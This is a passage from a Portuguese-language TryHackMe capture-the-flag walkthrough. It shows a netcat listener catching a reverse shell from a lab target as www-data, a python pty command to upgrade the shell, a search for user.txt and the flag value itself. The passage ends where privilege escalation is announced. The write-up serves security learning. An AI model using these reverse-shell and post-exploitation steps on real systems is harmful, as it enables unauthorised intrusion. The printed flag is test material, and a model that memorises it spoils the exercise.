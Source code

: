 8. Se tudo der certo, no terminal veremos a conexão estabelecida e acesso shell.

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [10.2.3.98] from (UNKNOWN) [10.10.49.88] 37666
Linux ip-10-10-49-88 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:23:59 up 21 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
$ 
```

Estamos logados como usuário `www-data`, um usuário comum do servidor web.

Para melhorar a interação do shell, podemos executar:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Isso invoca um shell bash mais completo.

Em seguida, procuramos pela flag `user.txt`:

```bash
www-data@ip-10-10-49-88:/$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```
Explicando o comando `find`:

`/`: indica o diretório raiz, ou seja, a busca será feita em toda a estrutura de arquivos do sistema. 

`-type f`: filtra a busca para arquivos do tipo file (arquivos comuns, excluindo diretórios, links simbólicos, etc).

`-name user.txt`: procura especificamente por arquivos cujo nome seja exatamente

`2>/dev/null`: redireciona mensagens de erro para o "buraco negro" do sistema, evitando que erros de permissão ou outros poluam a saída do comando.

O arquivo se encontra em /var/www/, visualizando o conteúdo:

```bash
www-data@ip-10-10-49-88:/$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
**Resposta:** `THM{y0u_g0t_a_sh3ll}`

---

## Agora que temos um shell, vamos aumentar nossos privilégios para root.
